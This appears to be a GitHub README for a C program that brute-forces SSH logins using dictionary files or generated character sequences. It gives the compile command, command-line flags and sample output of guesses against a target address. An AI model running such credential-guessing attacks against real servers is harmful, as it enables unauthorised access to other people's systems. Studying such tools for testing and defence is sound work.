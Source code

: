 # SSH Password Cracker (C - Implementation)
  **[ For Educational Purpose ONLY ]**

Crack SSH Password using Dictionary and Brute Force Method

## Introduction
Secure Shell (SSH) is a cryptographic network protocol for operating network services securely over an unsecured network. The best known example application is for remote login to computer systems by users.

## Usage
```c
$ gcc -o sshbrute_b sshbrute_b.c -lssh
$
$ ./sshbrute_b 
Usage: ./sshbrute -t target -uf ufile [-pf pfile] [-po 22 (default)] [-b]

$
$ ./sshbrute_b -t <ip_address> -uf username.txt -pf password.txt

[*] User: username
[+] Password: toor -> Incorrect Password
[+] Password: root -> Incorrect Password
[+] Password: password -> Incorrect Password
[+] Password: correctpwd -> Connected


[*] Username: username
[*] Password: correctpwd

$
$ ./sshbrute_b -t <ip_address> -uf username.txt -b

[*] User: username
Enter the lenght of password: 8
[+] Password: aaaaaaaa -> Incorrect Password
[+] Password: aaaaaaab -> Incorrect Password
[+] Password: aaaaaaac -> Incorrect Password
[+] Password: aaaaaaad -> Incorrect Password
[+] Password: aaaaaaae -> Incorrect Password
[+] Password: aaaaaaaf -> 
Error authenticating with password: Received SSH_MSG_DISCONNECT: 33554432:Too many authentication failures

$
```


## Contribute
Feel free to contribute. Please Follow PEP8 Guidelines.
